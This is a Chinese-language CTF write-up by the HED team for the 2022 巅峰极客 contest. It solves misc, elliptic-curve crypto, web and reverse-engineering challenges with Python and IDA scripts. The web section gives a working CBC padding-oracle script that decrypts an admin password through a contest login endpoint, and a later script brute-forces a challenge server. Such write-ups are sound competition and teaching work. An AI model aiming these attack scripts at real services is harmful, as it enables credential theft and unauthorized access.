

# 2022巅峰极客网络安全技能挑战赛-HED-WriteUp

**Rank: 12** *2149pts 5+71Solved*  
`HED 是南方科技大学COMPASS实验室的CTF战队`

- [2022巅峰极客网络安全技能挑战赛-HED-WriteUp](#2022巅峰极客网络安全技能挑战赛-hed-writeup)
- [Misc](#misc)
  - [Lost 417pts 5sloves](#lost-417pts-5sloves)
- [Crypto](#crypto)
  - [point power 125pt 61solves](#point-power-125pt-61solves)
  - [strange curve 104pt 78solves](#strange-curve-104pt-78solves)
- [Web](#web)
  - [babyweb 173pt 39solves](#babyweb-173pt-39solves)
- [Re](#re)
  - [ObfPuzz（二血）400pt 6solves](#obfpuzz二血400pt-6solves)


# Misc
## Lost 417pts 5sloves
解压之后发现小压缩包全炸了，010打开和正常压缩包对比发现时间戳的地方少了两个字节，手动插进去就能正常打开，可以解压出来一个缺少文件头的png。

加上头和IDHR得到一个很炸的png  

宽度手试出来是0fa0（正确宽度越近，红绿蓝条纹就越规则）（~~虽然我不知道我队友为什么没试试爆CRC或者gimp~~），就能看到《时间很重要》的提示  
读时flag.zip（一开始炸了的）文件的时间信息：
```python
for i in range(1,31):
    # flagx.zip是外边直接解压的
    dat=open(f"flag{i}.zip","rb").read()[0x46:0x48]
    print(dat.hex())
```
注意到所有压缩包实际时间的两字节大提升是递减的，尝试前后亦或，右移等操作无果  
队友发来一句“如果第一个时间对应f，那第二个对应f+6=l”（https://chowdera.com/2022/195/202207130529022205.html ）想到可以试试差值做，057e-0518出现了f，之后是lag，游戏结束  

```python
a = [ # 上边的输出，错位
0x057e - 0x0518,
0x0518 - 0x0584,
0x0584 - 0x05e5,
0x05e5 - 0x057e,
0x057e - 0x0503,
0x0503 - 0x0557,
0x0557 - 0x04ee,
0x04ee - 0x0481,
0x0481 - 0x041c,
0x041c - 0x03bd,
0x03bd - 0x0374,
0x0374 - 0x0301,
0x0301 - 0x0360,
0x0360 - 0x030d,
0x030d - 0x02be,
0x02be - 0x02eb,
0x02eb - 0x0354,
0x0354 - 0x03a1,
0x03a1 - 0x03f1,
0x03f1 - 0x03c1,
0x03c1 - 0x0413,
0x0413 - 0x03bf,
0x03bf - 0x037e,
0x037e - 0x0330,
0x0330 - 0x02dc,
0x02dc - 0x02bb,
0x02bb - 0x029a,
0x029a - 0x0279,
0x0279 - 0x02f6,
]

for c in a:
    print(chr(abs(c)), end='')
```

# Crypto
## point power 125pt 61solves

从 [椭圆曲线运算：从理论到实践](https://zhuanlan.zhihu.com/p/523081167)  处了解到，标量乘 2 的 x 坐标变化是，$m = \frac{3x_1^2+a}{2y_1}, x_2 = m^2-2x_1$

$$
m^2 = x_2 + 2 * x_1\\
\frac{(3 x_1^2 + a)^2}{4 y_1^2} = m^2\\
y_1^2 = x_1^3 + ax_1 + b\\
(3 x_1^2 + a)^2 = 4 m^2 x_1^3 + 4 m^2 a x + 4 m^2 b\\
9 x_1^4 + 6x_1^2 a + a^2 = 4 m^2 * x^3 + 4 m^2 x_1 a + 4 m^2 b\\
a^2 + (6 x_1^2 - 4 m^2 x_1) a + 9 x_1^4 - 4 m^2   x_1^3 - 4 m^2 b = 0 (mod P)\\
$$

最后解模意义下的一元二次方程即可。

```python
from Crypto.Util.number import *

p = 3660057339895840489386133099442699911046732928957592389841707990239494988668972633881890332850396642253648817739844121432749159024098337289268574006090698602263783482687565322890623
b = 1515231655397326550194746635613443276271228200149130229724363232017068662367771757907474495021697632810542820366098372870766155947779533427141016826904160784021630942035315049381147
x1 = 2157670468952062330453195482606118809236127827872293893648601570707609637499023981195730090033076249237356704253400517059411180554022652893726903447990650895219926989469443306189740
x2 = 1991876990606943816638852425122739062927245775025232944491452039354255349384430261036766896859410449488871048192397922549895939187691682643754284061389348874990018070631239671589727

mq = x2 + 2 * x1
mq4 = 4 * mq
bb = 6 * x1^2 - mq4 * x1
cc = 9 * x1^4 - mq4 * x1^3 - mq4 * b


P.<X> = PolynomialRing(GF(p))
f = X^2 + bb*X + cc
r = f.roots()
for x, _ in r:
	print(long_to_bytes(x))

```

## strange curve 104pt 78solves

先看一下 flag 是怎么流的：

``` python
x = bytes_to_long(flag)

while True:
    try:
        ...
    except:
        x += 1

P = (x, y)
print(f"P = {P}")
'''
P = (56006392793427940134514899557008545913996191831278248640996846111183757392968770895731003245209281149, 5533217632352976155681815016236825302418119286774481415122941272968513081846849158651480192550482691343283818244963282636939305751909505213138032238524899)
'''
```

虽然有一个 while True 里面有 `x += 1`，但是可以盲猜加的次数不是很多，大概只会影响后面几个 byte。  
而且后面的 `print(P)` 输出了 `x`，然后直接 `long_to_bytes(56006392793...)`，就拿到了   
`flag{b7f209df-1284-4bdf-b030-28197483c47b}`。  
~~所以说 `x += 1` 甚至没加过~~

# Web
## babyweb 173pt 39solves

根据提示，存在 CBC Padding Oracle

观察和尝试可得，密码有 64 位，修改第 36 至 63 位会发生 padding error，所以猜测 chunk 是 16 位。
已知 CBC 每一块的解密流程是：cipher ---AES---> intermedian ---xor iv---> plain text。   
然后在相邻两组之间，前一个的 ciphertext 作为后一组的 iv。我们可以枚举 iv 最后一个位，看看哪个 byte 可以让解密出来的文本的 padding 为 0x01（此时就不会爆 padding error 了），这时我们就可以把 0x01 和 iv 的最后一位异或一下，就可以拿到 intermedian 的最后一位了。  
以此类推，就可以摸到 intermedian 的全部值。再拿 intermedian 异或真正的 iv，就可以拿到明文。这部分的内容，网上已经有很多关于 CBC Padding Oracle Attack 的教程，这里就不再赘述了。  
然后对于每相邻的两个块，都可以用这种方式爆破出后一个块的 intermedian 值，进而拿到这一块的明文。

脚本如下：

``` python
import base64
import requests
from Crypto.Util.strxor import strxor
from Crypto.Util.Padding import unpad

session = 'eyJhZG1pbl9wYXNzd29yZCI6IlNwOTlRNU9DN2NTb2VrWlRkZFRQZEE3RHpMUWJpUGtSTWwzRDBiMmJ3YS95dmZMSEc2YWpWRVhScmh3cGVVVDYrNmlWYTRja2dKd0FsL2pHcy91L0JBPT0iLCJpc2FkbWluIjpmYWxzZX0.YvzJYQ.6hevEiFyct_BhWVc8WtfmZf5qf0'
password = list(base64.b64decode(b'Sp99Q5OC7cSoekZTddTPdA7DzLQbiPkRMl3D0b2bwa/yvfLHG6ajVEXRrhwpeUT6+6iVa4ckgJwAl/jGs/u/BA=='))

def chunks(lst, n):
    for i in range(0, len(lst), n):
        yield lst[i:i + n]

groups = list(chunks(password, 16))

def get(password):
    payload = { 'username': 'admin', 'password': 'admin' }
    cookies = { 'session': session, 'admin_password': base64.b64encode(bytes(password)).decode() }
    r = requests.post('http://eci-2ze2vftwh3e6xhybsqxm.cloudeci1.ichunqiu.com/login', cookies=cookies, data=payload)
    return r.text

text = b''
for chunk in range(3):
    intermedia = [0] * 16
    for i in range(1, 16 + 1):
        for j in range(256):
            intermedia[-i] = j
            iv = [i] * 16
            for k in range(16):
                iv[k] ^= intermedia[k]
            result = get(iv + groups[chunk + 1])
            print('{:3d} => {}'.format(j, result))
            if result == 'False':
                break
        print(intermedia)
    text += strxor(bytes(intermedia), bytes(groups[chunk]))
print(unpad(text))
```

然后拿到明文密码之后，用 `admin` 登录一下，就拿到了 flag。

# Re 
## ObfPuzz（二血）400pt 6solves
分析php文件，注意以下几点：
- vardump的调用
- 匹配成功需要固定的正确前缀，长度不超过500
- 整段内容必须是唯一的，虽然成功需要正确前缀，但是生成flag是整段内容。

IDA打开so，搜索字符串看看是不是RealWordRE，然后看到了flag字样，x跟入分析发现可能是一个有向图的终点，写脚本反向dfs发现会死循环：

脚步需要的手动操作：n重命名`flag!!`所在的函数为last
```python
# 这里的visit写炸了
def dfs(name, pwd, visit, dept):
    if name == "sub_1443":
        print(name, "".join(pwd))
        input("win!!!")
    if dept > 500 or name in visit:
        return
    try:
        print(name, "".join(pwd))
        func = idaapi.get_func(get_name_ea_simple("_"+name)) 
        ea = func.start_ea
        ref = DataRefsTo(ea)
        next(ref) # skip plt
        got = next(ref)
        useages = DataRefsTo(got)
        useages_rand = [u for u in useages]
        random.shuffle(useages_rand)
        for fun in useages_rand:
            code = str(idaapi.decompile(fun))
            switch = re.findall("if \( v3 == (.*?) \)\n.*?= "+name+";",code)
            if (len(switch)>0):
                func_name = re.findall("unsigned __int64 __fastcall (.*?)\(",code)[0]
                c_pass = pwd.copy()
                c_visit = visit.copy()
                c_visit.append(name)
                c_pass.append(chr(int(switch[0]))) # assert only 1
                dfs(func_name, c_pass, c_visit, dept+1)
            else:
                print("Dead")
    except:
        pass

dfs('last', [], [],  0)
```
换成所有节点只访问一次，queue很快跑到了起点，并输出节点相关信息可视化建图如下：

发现有重边，不考虑重边也存在环，最短路和最长路做答案都不正确，于是从起点(有oops函数跟进的F字母)出发，改脚本爆出所有不走重复节点的答案（保证解是有限的）：
```python
import queue


buffer_next = {}
def get_next(name):
    global buffer_next
    if name in buffer_next:
        for item in buffer_next[name]:
            yield item
    else:
        buffer = []
        try:
            func = idaapi.get_func(get_name_ea_simple("_" + name))
            code = str(idaapi.decompile(func))
            switch = re.findall(r"if \( v3 == (.*?) \)\n.*?= (.*?);", code)
            if len(switch) > 0:
                for pair in switch:
                    key, func_name = chr(int(pair[0])), pair[1]
                    print('{} => {}'.format(name, func_name))
                    buffer.append((key, func_name))
                    yield (key, func_name)
            buffer_next[name] = buffer
        except Exception as e:
            print(e)

def advanced_dfs():
    q = queue.Queue()
    q.put(('sub_1443', '', '', set(['sub_1443'])))

    while not q.empty():
        now, father, path, visited = q.get()
        if now == 'last':
            print(len(path), path)
            continue

        for key, next_name in get_next(now):
            if next_name in visited:
                continue
            visited_copy = visited.copy()
            visited_copy.add(next_name)
            q.put((next_name, now, path + key, visited_copy))

advanced_dfs()
```
拿所有输出爆本地服务器：
```python
# dat='''上边IDA-Python的输出'''
import requests
for i in dat.split("\n"):
    r=requests.get("http://ip:1447/?flag="+i.split(" ")[1])
    if ("flag{" in r.text):
        print(r.text)
        print(i)
```
在所有结果中跑出了正确的那个
```
[debug]: verify(374)
flag!!!<br>int(0)
SUCCESS
<br><br>win! your flag is: flag{4ed4c7872f71240d75624ff04d25631f}
374 FSTVHUReZ13z9UYDNTwDUwJSAFjPEUbs1oii61Q79GZnqWoIMu4W8e6n6iy9oi9ElOcRKA8yMwRjJblt5xu5KOBOc3XBOPM3VDFrihROOMpjPs4ZevQrDmkppC74k2XjzqbiJkMuVHeq8iVWWyiw9W0glTEth348odMbKTABtjoZEE94uqQomly4emxwKLZyPsMPCUXyFmacSXFebwIZmbHBDaRw0AAKMEVpbaIFV3p57WiTsbDkey1UL4LBttYIH4BXQZJ51p7hjRdW8yo6WH33XROfXnFpYBP44wkRJhxQHWGVDdmluUTEHDu0DdhsDCghrGqrBoZIJttSwrIjisxdeBtj5A6Ch2LKkanHNguUefegZrqVCo
```
